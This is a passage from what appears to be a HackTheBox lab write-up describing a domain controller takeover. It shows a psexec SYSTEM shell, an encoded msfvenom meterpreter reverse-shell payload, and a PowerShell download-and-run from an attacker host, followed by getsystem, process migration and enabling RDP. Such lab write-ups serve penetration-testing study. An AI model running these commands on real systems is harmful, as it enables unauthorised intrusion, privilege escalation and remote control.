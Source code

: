 So, if we fire up psexec.py with `-k` flag, we shall get our SYSTEM shell on DC1:

```
root@kali:$ proxychains4 -q psexec.py 'htb.local/administrator:Myp@ssw0rd@dc1.htb.local' -k
```

[![dc1-psexec-py.png](/assets/images/htb/endgames/hades/dc1-psexec-py.png)](/assets/images/htb/endgames/hades/dc1-psexec-py.png)
{:.center-image}

I will initiate RDP connection, get TGT with `runas /netonly` and play around on the domain controller within a powershell session:

```
root@kali:$ msfvenom -p windows/x64/meterpreter/reverse_tcp -b '\x00' -n 100 -e x64/xor_dynamic -i 10 LHOST=10.14.14.37 LPORT=9003 -f exe --platform windows -a x64 --smallest > web.exe
root@kali:$ proxychains4 -q evil-winrm.rb -u 'administrator' -p 'Myp@ssw0rd' -i 192.168.3.202 -s `pwd` -e `pwd`
PS > (new-object net.webclient).downloadfile("http://10.14.14.37/web.exe", "c:\users\remote_user.HTB\music\web.exe");Start-Process -FilePath c:\users\remote_user.HTB\music\web.exe
meterpreter > getuid
Server username: WEB\Administrator
meterpreter > getsystem
meterpreter > migrate -N winlogon
meterpreter > run post/windows/manage/enable_rdp
